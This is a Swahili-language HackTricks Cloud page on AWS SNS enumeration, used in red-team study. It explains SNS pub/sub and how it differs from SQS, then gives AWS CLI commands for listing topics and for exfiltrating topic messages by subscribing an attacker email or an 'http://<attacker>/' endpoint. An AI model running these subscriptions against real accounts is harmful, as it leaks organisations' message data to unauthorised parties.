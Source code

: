# AWS - SNS Enum

{% hint style="success" %}
Jifunze na kufanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na kufanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) inaelezewa kama **huduma ya ujumbe inayosimamiwa kikamilifu**. Inasaidia aina zote mbili za mawasiliano **application-to-application** (A2A) na **application-to-person** (A2P).

Vipengele muhimu kwa mawasiliano ya A2A ni pamoja na **mifumo ya kuchapisha/kusajili (pub/sub)**. Mifumo hii inaleta **mada**, muhimu kwa kuwezesha ujumbe wa **juu, wa kusukuma, wa wengi-kwa-wengi**. Kipengele hiki ni cha manufaa sana katika hali zinazohusisha mifumo iliyosambazwa, microservices, na miundombinu ya serverless inayotegemea matukio. Kwa kutumia mada hizi, mifumo ya wachapishaji inaweza kusambaza ujumbe kwa **aina mbalimbali za mifumo ya wasajili**, kuwezesha muundo wa ujumbe wa fanout.

### **Tofauti na SQS**

**SQS** ni huduma ya **kulinganisha foleni** inayoruhusu mawasiliano ya pointi-kwa-pointi, kuhakikisha kwamba ujumbe unashughulikiwa na **mtumiaji mmoja**. Inatoa **utoaji wa angalau mara moja**, inasaidia foleni za kawaida na FIFO, na inaruhusu uhifadhi wa ujumbe kwa majaribio na usindikaji uliocheleweshwa.\
Kwa upande mwingine, **SNS** ni huduma ya **kuchapisha/kusajili**, inayowezesha mawasiliano ya **mmoja-kwa-wengi** kwa kutangaza ujumbe kwa **wasajili wengi** kwa wakati mmoja. Inasaidia **aina mbalimbali za mwisho wa usajili kama barua pepe, SMS, Lambda functions, na HTTP/HTTPS**, na inatoa mifumo ya kuchuja kwa utoaji wa ujumbe ulioelekezwa.\
Wakati huduma zote mbili zinasaidia kutenganisha kati ya vipengele katika mifumo iliyosambazwa, SQS inazingatia mawasiliano ya foleni, na SNS inasisitiza mifumo ya mawasiliano ya fan-out inayotegemea matukio.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Kumbuka kwamba ikiwa **mada ni ya aina ya FIFO**, ni wanachama wanaotumia itifaki ya **SQS** pekee wanaoweza kutumika (HTTP au HTTPS haziwezi kutumika).

Pia, hata kama `--topic-arn` ina eneo hakikisha unataja eneo sahihi katika **`--region`** au utapata hitilafu inayoweza kuonyesha kwamba huna ufikiaji lakini tatizo ni eneo.
{% endhint %}

#### Ufikiaji Bila Uthibitisho

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Kuinua Haki

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Unyonyaji Baada ya Shambulio

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Uendelevu

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Marejeleo

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
